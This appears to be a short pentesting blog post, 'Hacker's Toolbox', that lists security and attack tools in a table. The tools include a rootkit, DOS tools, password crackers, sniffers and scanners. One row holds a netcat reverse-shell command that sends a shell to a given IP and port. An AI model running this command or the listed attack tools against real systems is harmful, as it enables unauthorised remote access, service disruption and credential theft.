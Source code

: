 ```yaml
---
title: Hacker's Toolbox
excerpt: >-
  This article will contain various cool tools I've encountered during my research.
categories:
  - Penetration-Testing
tags:
  - pentest
  - tools
---
```

Name                      | description
--------------------------|------------------------------------------------
vlany                     | a Linux rootkit
sqlmap                    | automated SQL injection
nmap                      | network scanner
openvas                   | vulnrability scanner
burpsuite                 | intercepting proxy, with a lot of nice features
John the ripper           | password decryption
LOIC                      | DOS tool (for windows)
slowhttptest              | DOS tool for linux (tested on kali)
metasploit                | malware generator and much more
etherape                  | GUI showing eth interface traffic
Hydra                     | Password bruteforcing
Driftnet                  | captures images sent on wire (non https)
urlsnarf                  | captures HTTP requests
nc -e /bin/sh <ip> <port> | sends a shell to the ip
nikto                     | web vulnrability checker
dirb                      | web brute forcer
